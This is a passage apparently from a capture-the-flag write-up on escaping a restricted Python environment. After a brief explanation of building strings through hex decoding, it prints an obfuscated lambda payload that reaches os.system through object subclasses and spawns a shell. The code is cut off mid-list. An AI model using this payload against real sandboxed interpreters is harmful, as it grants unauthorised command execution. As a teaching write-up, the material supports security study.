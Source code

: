 2. `bytes.decode` 
    - via `getattr(getattr('x', 'encode')(), 'decode')`

From here, we can construct arbitrary strings just by constructing the hex string and performing `bytes.fromhex(hexstring).decode()`.

{% endraw %}
{% endcapture %}

{{ thing | markdownify }}

{% capture code %}
```py
lambda g: (
    (lambda _0, _1:
        (lambda _2, _4, _8, _16, _32, _64, _128: 
        (lambda _1234567890:
            (lambda 
                s_n,s_r,s_a,s_o,s_t,s_c,s_l,s_larr,s_i,s_g,s_e,s_b,s_dash,s_f,s_ ,s_rarr,s_u,
                s_T,
                s_F,s_s,
                s_lbrack,s_rbrack,
                s_4,s_5,s_9,s_6,s_3,s_8,s_2,s_7,s_0,s_1,
                s_x,s_j,s_N:
                (lambda morestr:
                    (lambda s_d,s_m,s_h:
                        (lambda fromhex, decodestr:
                            (lambda 
                                s__class__,
                                s__bases__,
                                s__subclasses__,
                                s_load_module,
                                s_system:
                                (lambda load_module:
                                    (lambda os: 
                                        (lambda system: system(s_s + s_h))
                                        (g(os, s_system))
                                    )(load_module(s_o + s_s))
                                )(g(g(g(g(g, s__class__), s__bases__)[_0], s__subclasses__)()[_16+_64], s_load_module))
                            )(
                                g(fromhex(s_5+s_f+s_5+s_f+s_6+s_3+s_6+s_c+s_6+s_1+s_7+s_3+s_7+s_3+s_5+s_f+s_5+s_f), decodestr)(),
                                g(fromhex(s_5+s_f+s_5+s_f+s_6+s_2+s_6+s_1+s_7+s_3+s_6+s_5+s_7+s_3+s_5+s_f+s_5+s_f), decodestr)(),
                                g(fromhex(s_5+s_f+s_5+s_f+s_7+s_3+s_7+s_5+s_6+s_2+s_6+s_3+s_6+s_c+s_6+s_1+s_7+s_3+s_7+s_3+s_6+s_5+s_7+s_3+s_5+s_f+s_5+s_f), decodestr)(),
                                g(fromhex(s_6+s_c+s_6+s_f+s_6+s_1+s_6+s_4+s_5+s_f+s_6+s_d+s_6+s_f+s_6+s_4+s_7+s_5+s_6+s_c+s_6+s_5), decodestr)(),
                                g(fromhex(s_7+s_3+s_7+s_9+s_7+s_3+s_7+s_4+s_6+s_5+s_6+s_d), decodestr)()
                            )
                        )(g(g(s_5+s_f, s_e+s_n+s_c+s_o+s_d+s_e)(), s_f+s_r+s_o+s_m+s_h+s_e+s_x), s_d+s_e+s_c+s_o+s_d+s_e)
                    )(morestr[_1+_2+_4+_8],morestr[_2+_8],morestr[_1+_4+_8])
                )(f"{g({}, s_g+s_e+s_t)}")
            )(
                f'{g}'[_8],f'{g}'[_1+_8+_16],f'{g}'[_2+_4+_16],f'{g}'[_16],f'{g}'[_1+_4],f'{g}'[_1+_4+_8],f'{g}'[_4],f'{g}'[_0],f'{g}'[_1+_2],f'{g}'[_1+_2+_16],f'{g}'[_4+_16],f'{g}'[_1],f'{g}'[_2+_4],f'{g}'[_2+_8],f'{g}'[_1+_8],f'{g}'[_2+_8+_16],f'{g}'[_2], 
                f'{g==g}'[_0], 
                f'{g!=g}'[_0],f'{g!=g}'[_1+_2],
                f"{({*f'{g}'[_0:_0]})}"[_1+_2],f"{({*f'{g}'[_0:_0]})}"[_4],
                f"{_1234567890}"[_1+_2],f"{_1234567890}"[_4],f"{_1234567890}"[_8],f"{_1234567890}"[_1+_4],f"{_1234567890}"[_2],f"{_1234567890}"[_1+_2+_4],f"{_1234567890}"[_1],f"{_1234567890}"[_2+_4],f"{_1234567890}"[_1+_8],f"{_1234567890}"[_0],
```